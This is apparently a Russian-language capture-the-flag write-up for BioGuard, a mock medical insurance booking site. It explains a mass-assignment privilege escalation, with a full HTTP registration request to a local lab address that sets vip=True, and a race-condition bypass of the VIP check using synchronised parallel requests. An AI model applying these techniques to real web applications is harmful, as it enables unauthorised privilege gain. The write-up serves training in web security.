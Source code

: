 # Writeup

## Введение
Сервис BioGuard - это сайт частной страховой компании, которая предоставляет различные медицинские услуги. Пациент регистрируется, логинится, получает доступ к профилю, в котором есть возможность выбрать услугу и записаться на прием.
Во время записи можно заметить, что у некоторых услуг в названии есть пометка "VIP". Такие услуги для записи доступны только пациентам с таким же статусом - VIP. 

## Уязвимости

### Privilege escalation
При попытке записаться на vip услугу пациент получает сообщение "This service is only for vip!" из чего можно сделать вывод, что таким статусом он не обладает. Но как его получить?
Если обратиться к коду, то можно заметить, что в форме PatientForm присутствует поле vip. И если передать его при регистрации равным True, можно получить себе привилегированного пациента. При записи пациента на vip услугу в его профиле отобразится флаг.

#### Эксплуатация
```
POST /register HTTP/1.1
Host: 127.0.0.1:4444
Content-Length: 132
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Origin: http://127.0.0.1:4444
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:4444/register
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=vPiKi3vpUahoc1PQItg9TAB2pVEznI2n
Connection: keep-alive

csrfmiddlewaretoken=kxg20E47lIRyh2BpzF8CM1f2MaQydcY1FcoC8xpm5IYMjTg57YeBvrGU1VkXqKQe&username=user2&password1=1&password2=1&vip=True
```
[эксплойт](./exploits/exploit1.py "")

### Race Condition
Но чтобы записаться на vip услугу не обязательно иметь соотвествующий статус. Достаточно создать несколько запросов записи на данную услугу и один запрос на услугу доступную для текущего пациента, затем отправить их параллельно с синхронизацией по последнему байту. Ограничение по статусу пациента удастся обойти, а в профиле появится флаг.

#### Эксплуатация
![alt text](image.png)